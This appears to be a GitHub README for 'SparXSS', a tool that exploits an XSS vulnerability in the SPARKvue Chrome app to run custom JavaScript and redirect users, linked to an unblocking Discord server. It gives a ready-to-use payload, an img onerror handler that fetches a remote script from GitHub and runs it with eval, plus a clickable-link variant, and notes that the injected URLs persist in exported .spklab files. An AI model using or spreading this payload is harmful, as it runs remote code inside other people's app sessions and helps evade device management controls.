 ## A Script For Redirection And Custom Javascript Execution For The SPARKvue Chrome App XSS Vulnerability Found By ohonbob
The full guide to access the vulnerability is in the Titanium Network Discord Server: discord.gg/unblock

Run it using:
```
<img src=# onerror='fetch("https://raw.githubusercontent.com/Amukerd/SparXSS/main/sparxss.js").then(r=>r.text()).then(c=>eval(c))'>
```
Or make it a clickable link:
```
<a href="https://amukerd.github.io/SparXSS">Click Me!</a>
```

## [Changelog](https://github.com/Amukerd/SparXSS/blob/main/Changelog.md)

## ToDo
- ~~Make Icon's Show up for Every URL~~
- ~~Make the custom URL's stay when you export the .spklab file~~<br>
- ~~Make the links save without having to manually click the textbox where the script is~~
